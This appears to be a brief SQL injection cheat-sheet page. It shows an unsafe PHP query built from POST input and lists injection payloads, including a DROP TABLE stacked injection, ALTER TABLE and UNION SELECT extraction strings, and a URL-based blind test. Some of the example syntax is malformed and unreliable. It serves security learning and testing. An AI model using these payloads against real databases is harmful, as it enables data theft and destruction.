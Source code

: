 # SQL Injection
[HOME](/index.html) / [Web](/Web)

## The basics

How an example of unsecure sql statement looks like:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>$_POST["username"]</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

To break the statement:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>1' OR 1+1--</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

<br>

### Simple SQL injection test
```SQL
'
1' OR 1+1--
\'
```
### Stacked injection; Where table name is known
```SQL
1'; DROP TABLE {tablename} --
```
### Where column name is known
```SQL
1'; ALTER TABLE {tablename} ALTER COLUMN {columnname} {datatype} --
1' UNION SELECT {columnname} FROM {tablename};--
1' UNION ALL SELECT {columnname} FROM {tablename};--
```

## Blind injection
Apply in URL
```SQL
www.example.com/xxx.php?id=1 or 1=1
```

